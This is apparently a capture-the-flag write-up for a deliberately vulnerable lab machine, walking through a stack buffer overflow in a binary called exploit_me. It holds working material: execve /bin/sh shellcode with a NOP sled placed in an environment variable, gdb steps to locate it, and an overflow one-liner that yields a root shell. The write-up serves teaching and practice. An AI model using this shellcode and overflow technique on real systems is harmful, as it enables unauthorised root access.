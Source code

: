 ## Buffer Overflow

Repeat steps of the **writeup1** until you are log on zaz's ssh session.

We already know that the binary `exploit_me` is vulnerable to **buffer overflow** but 
this time we're going to use a variant of the `ret2libc` by using an **environment variable**
and a **payload**.

We store the **payload** in an **environment variable**:
```bash
zaz@BornToSecHackMe:~$ export SHELL_CODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

Now, we have to find the address of `SHELL_CODE`.

We launch **gdb** and disassemble main to choose a random **breakpoint**:
```bash
zaz@BornToSecHackMe:~$ gdb exploit_me

...

(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp # like this one
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
```

We create the **breakpoint** and run the program:
```bash
(gdb) break *0x080483f4
Breakpoint 1 at 0x80483f4

(gdb) r
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f4 in main ()
```

We search for the address of the **environement variable**:
```bash
(gdb) p (char *) getenv("SHELL_CODE")
$5 = 0xbffffec4 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
```

This time, our payload has to be as following:
```text
[buffer][SHELL_CODE address]
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print("A"* 140 + "\xbf\xff\xfe\xc4"[::-1])'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
```
```bash
$ whoami
root
```





